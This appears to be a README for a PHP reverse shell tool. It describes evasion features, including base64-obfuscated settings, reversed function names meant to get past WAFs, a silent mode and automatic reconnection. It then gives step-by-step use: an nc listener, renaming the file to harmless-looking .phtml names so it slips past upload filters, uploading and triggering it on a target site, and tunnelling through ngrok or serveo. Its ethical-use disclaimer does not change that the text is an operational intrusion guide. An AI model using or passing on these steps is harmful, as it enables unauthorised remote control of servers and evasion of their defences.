## PHP Reverse Shell (Powerful & Stealthy)
This is a powerful and stealthy PHP reverse shell designed for ethical hacking and penetration testing.
It quietly connects back to your machine reliably 

## ⚠️ Disclaimer
This PHP reverse shell is developed strictly for educational and authorized penetration testing purposes only.   
The developer is not responsible for any misuse, damage, or illegal activity performed using this reverse_shell.     
Use responsibly and only on systems you own or have explicit permission to test. Unauthorized access is illegal and punishable by law.
## Features
- IP and shell command are Base64 encoded for stealth 

- Function names are reversed to bypass WAF and security filters

- Silent mode — no output displayed to avoid detection

- Automatically reconnects if connection drops

- Can run as a background daemon (if server supports)

- Works on most PHP-enabled servers

- Supports tunneling services like  Ngrok, Serveo

- Upload with `.phtml` extension to bypass some filters

## How to Use
**1. Start a listener on your machine**
```bash
nc -lvnp 4444
```
**2. Encode your IP or hostname in Base64**

Use this simple command:

```bash
echo "your_ip_or_hostname" | base64
```
**Example:**
```bash
echo "192.168.1.5" | base64
```
Copy the output and replace the $ip_b64 value in the PHP reverse shell script.

**3. Update your PHP reverse shell script:**

Change these lines with your Base64 encoded IP/hostname and port:

```php
$ip_b64 = 'YOUR_BASE64_ENCODED_IP_OR_HOSTNAME';
$port = YOUR_LISTENER_PORT;
```
**4. Rename the file and upload**

Rename the file to something less suspicious, for example:

- `login.phtml`

- `avatar.phtml`

- `update.phtml`

Using the `.phtml` extension helps the file run on some servers that block `.php`.

Upload this file to the target website where file uploads are allowed.

**5. Trigger the reverse shell**

Open the uploaded file in a browser:

```arduino
http://target.com/uploads/login.phtml
```
Once opened, your listener will get a reverse shell connection.

## Using Tunneling (When Your IP is Not Public)
If you're using mobile data or behind a router (NAT), your IP might not be public.
In that case, the reverse shell can't reach your machine directly.

To fix this, use TCP tunneling tools like Ngrok or Serveo.

#### Ngrok (Recommended)
Install Ngrok   
Run this command:

```bash
ngrok tcp 4444
```
It will show something like:

```nginx
Forwarding tcp://4.tcp.ngrok.io:18900
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of 4.tcp.ngrok.io;
$port = 18900;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
#### Serveo

**Run this command:**

```bash
ssh -R 0:localhost:4444 serveo.net
```
**It will say something like:**

```csharp
Forwarding TCP connections from serveo.net:46603
```
**Update your PHP reverse shell script:**

```php
$ip_b64 = base64_encoded of serveo.net;
$port = 46603;
```
**Start your listener:**

```bash
nc -lvnp 4444
```
## License
This project is licensed under the GNU General Public License v3.0.

